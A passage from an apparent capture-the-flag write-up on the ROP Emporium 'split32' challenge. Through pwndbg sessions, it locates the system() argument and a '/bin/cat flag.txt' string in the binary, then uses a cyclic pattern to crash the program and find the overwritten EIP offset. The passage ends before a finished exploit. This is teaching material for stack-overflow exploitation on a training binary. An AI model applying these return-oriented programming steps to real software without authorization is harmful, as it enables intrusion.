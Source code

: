 ```
```

The arguments for a 32-bit function call are pushed on the stack. At `usefulFunction+9`, we can see the argument for the system call being pushed onto the stack.

Let's see what the argument is.

```
pwndbg> x/s 0x804870e
0x804870e:      "/bin/ls"
```

We have to replace this argument with `/bin/cat flag.txt`.

### `/bin/cat flag.txt`

```
pwndbg> search /bin/cat
Searching for value: '/bin/cat'
split32         0x804a030 '/bin/cat flag.txt'
```

We can link this string with our system call in order to read the `flag.txt` file.

In this case we do not need a `pop rdi` gadget because as we saw the arguments are not stored in registers.

### Cyclic pattern

We now have to find the offset using a cyclic pattern.

```gdb
pwndbg> cyclic
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

Let's provide this as input.

```
pwndbg> run
Starting program: /home/kunal/ropemporium/split/split32
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Thank you!

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────
 EAX  0xb
 EBX  0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
 ECX  0xf7fae9b4 (_IO_stdfile_1_lock) ◂— 0
 EDX  1
 EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0
 ESI  0xffffceb4 —▸ 0xffffcfea ◂— '/home/kunal/ropemporium/split/split32'
 EBP  0x6161616b ('kaaa')
 ESP  0xffffcde0 ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaa'
 EIP  0x6161616c ('laaa')
───────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────
Invalid address 0x6161616c
```